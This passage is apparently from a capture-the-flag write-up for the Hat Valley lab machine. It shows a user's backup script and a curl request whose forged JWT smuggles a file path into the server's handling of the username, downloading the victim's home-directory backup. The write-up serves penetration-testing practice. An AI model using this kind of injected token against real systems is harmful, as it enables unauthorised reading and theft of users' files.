 ```bashrc
# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
```

- There is an alias that uses a homemade script `/home/bean/Documents/backup_home.sh`.
- Let's check it out

```bash
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

- We need to get the file with curl we wont be able with burp.
- The --cookie does not work let's try the --header
- And it works `curl --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cC9iZWFuX2JhY2t1cF9maW5hbC50YXIuZ3ogJyIsImlhdCI6MTY3MjY4OTczNX0.LkFALppbSDqosL-J0WTN_U_aULTDgYnlN1uBIysxjE8" http://hat-valley.htb/api/all-leave --output bean.tar.gz`
> Here you should create a directory because the files you will get is the full home dir backup so it can look messy if you are a member of the cleaning patrol like me ^_^''

- We unzip our file and get the other archive so we need to extract it as well.
- The best way to have an idea of the files is the tree command that I really like
